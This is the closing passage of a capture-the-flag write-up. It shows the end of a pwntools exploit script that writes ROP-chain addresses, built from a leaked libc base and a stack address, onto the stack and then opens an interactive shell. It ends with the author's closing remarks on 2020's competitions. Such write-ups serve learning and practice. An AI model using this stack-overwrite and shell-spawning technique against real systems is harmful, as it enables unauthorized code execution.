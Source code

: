 ```py
adder((libc_base + 0x00000000000286e7) >> 32, stack_leak + 0x1dc,aaa=True)
adder((libc_base + 0x0000000000027b72+1) & 0xffffffff, stack_leak + 0x1f8,aaa=True)
adder((libc_base + 0x0000000000027b72+1) >> 32, stack_leak + 0x1fc,aaa=True)
adder((libc_base + 0x56410) & 0xffffffff, stack_leak + 0x200,aaa=True)
adder((libc_base + 0x56410) >> 32, stack_leak + 0x204,aaa=True)


pause()
p.sendlineafter("(Y/N)", 'N')


p.interactive()
p.close()
```

I was the first to solve this challenge during the competition btw :)


### Closing Statement
Well 2020 was a disaster but the CTF's were awesome. Let's hope 2021 is even better :D